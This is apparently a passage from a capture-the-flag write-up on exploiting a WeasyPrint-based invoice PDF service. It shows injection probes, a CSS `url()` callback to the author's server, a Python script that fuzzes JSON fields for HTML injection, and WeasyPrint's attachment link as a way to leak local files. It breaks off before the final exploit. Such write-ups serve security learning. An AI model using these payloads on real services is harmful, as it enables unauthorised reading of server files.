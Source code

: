 One of the first things that I try when attacking a python web application is Server Side Template Injection. Although we have several input options on the json above, none gave me a SSTI using `{{7*7}}` as payload. Also, what catches our attention is the permission to define styles for the web page, as we already know that using css we could leak information of a web page [17], but it does not seem to be useful here. But we could get some more recon information if we were able to trigger a HTTP request using `url()`: 

`..."styles":{"body":{"background-image":"url('http://myserver.com.br/')"...`. 

And I got a request on my server with this header: `User-Agent: WeasyPrint 44 (http://weasyprint.org/)`.

### WeasyPrint

What is WeasyPrint? From https://github.com/Kozea/WeasyPrint/ : _WeasyPrint is a smart solution helping web developers to create PDF documents. It turns simple HTML pages into gorgeous statistical reports, invoices, tickets…_. Ok, time to understand more this python library. 

Reading the docs I saw this: _When used with untrusted HTML or untrusted CSS, WeasyPrint can meet security problems. You will need extra configuration in your Python application to avoid high memory use, endless renderings or local files leaks._. Nice! All we need to know now is how to exploit this flaw. Maybe someone opened an issue on github? It was not the case. But, I found this pull request:

"Added support for PDF attachments." (https://github.com/Kozea/WeasyPrint/pull/177).

What an amazing feature! So, using `<link rel='attachment' href='file_path'>` WeasyPrint will attach the file from href location to the PDF. I am sure that it is all we need.

Let's test all json attributes to inject HTML code. Nothing better than creating a python script to help us:

```python
...
URL = 'http://localhost:81/invoices/'
...
def pdfize(payl, filename):
    r = requests.get(URL+PDFIZE, params=payload)
    with open('invoices/'+filename, 'wb') as fd:
        for chunk in r.iter_content(chunk_size=128):
            fd.write(chunk)

def preview(payl):
    r = requests.get(URL+PREVIEW, params=payload)
    print(r.content)

invoice = {"companyName":"</style", "email":"</style", "invoiceNumber":"1", "date":"<html", "<":">", "items":[["1","manoelt<script","manoelt</script","2"],["1","manoelt","manoelt","2"]],"styles":{"body":{"}</style background-color":"white"}}}
payload = {"d" : json.dumps(invoice)}
pdfize(payload, "style_invoice.pdf")
preview(payload)
```

And through only one attribute I was able to inject HTML: CSS property! But the backend was not allowing `</*>`... And this tip from [18]: `You can use // to close a tag instead of >.` made the final exploit:
